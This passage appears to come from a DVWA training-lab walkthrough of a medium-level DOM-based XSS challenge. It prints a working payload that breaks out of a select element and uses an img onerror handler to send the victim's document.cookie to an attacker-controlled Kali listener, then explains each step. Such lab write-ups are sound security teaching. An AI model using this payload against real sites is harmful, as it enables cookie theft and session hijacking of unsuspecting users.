 <img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdbreakfail.png" width="500">

Hm, no luck. Seems our payload won't be executed, as the web page treats <code>a.js</code> as an actual image rather than code. Let's try putting our payload in the <code>img</code> tag proper, to remove the dependency on using a Javascript file. 

After playing around, we get something like:

<code>&#60;/option&#62;&#60;/select&#62;&#60;img id='pic' src=x onerror="var i = document.getElementById('pic'); i.setAttribute('src','http&#58;//[your_Kali_IP]:9999/' + document.cookie); i.parentNode.removeChild(i); return false;")&#62;</code>

This code does several things:
<ul>
  <li>Gives a label to our <code>img</code> element; we call it 'pic';</li>
  <li>Specifies an invalid <b>src</b> parameter, which doesn't exist. This will trigger the <code>onerror</code> code; and</li>
  <li>Specify an error condition. This can be Javascript, which will execute without using <code>script</code> tags. So we set our image source to a fake URL on our temporary server, which will eventually request a page with the same name as the user's cookie. Right after, we'll delete our element, to keep the error code from continuously triggering and executing a denial-of-service attack on our own server.</li>
</ul>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdsuccess.png" width="500">

We did it! We still get the user's cookie given to us remotely, without having to view their screen. Remember that I purposely display only part of the cookie on my end. Challenge complete!

